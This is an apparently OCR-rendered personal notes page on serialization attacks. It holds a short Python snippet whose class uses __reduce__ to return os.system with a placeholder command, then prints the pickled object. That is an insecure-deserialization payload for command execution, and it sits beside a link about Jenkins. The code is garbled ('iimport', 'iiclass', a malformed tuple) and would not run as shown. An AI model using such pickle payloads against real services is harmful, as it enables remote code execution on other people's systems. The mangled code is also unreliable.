 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<h3 id="python-serialization">Python</h3>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </code></pre>
  </fieldset>



<a href="serialization-in-jenkins">Jenkins</a>

</li>




